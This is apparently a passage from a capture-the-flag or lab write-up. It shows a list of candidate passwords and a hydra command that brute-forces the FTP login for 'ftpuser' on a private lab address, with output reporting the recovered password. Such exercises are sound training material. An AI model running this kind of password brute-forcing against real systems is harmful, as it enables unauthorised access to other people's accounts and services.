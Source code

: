 ```text
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```
The ideal tool for the password bruteforcing which will be made is hydra.

```text
hydra -l ftpuser -P passwords.txt 10.10.187.110 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 05:38:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.187.110:21/
[21][ftp] host: 10.10.187.110   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-24 05:38:53
```
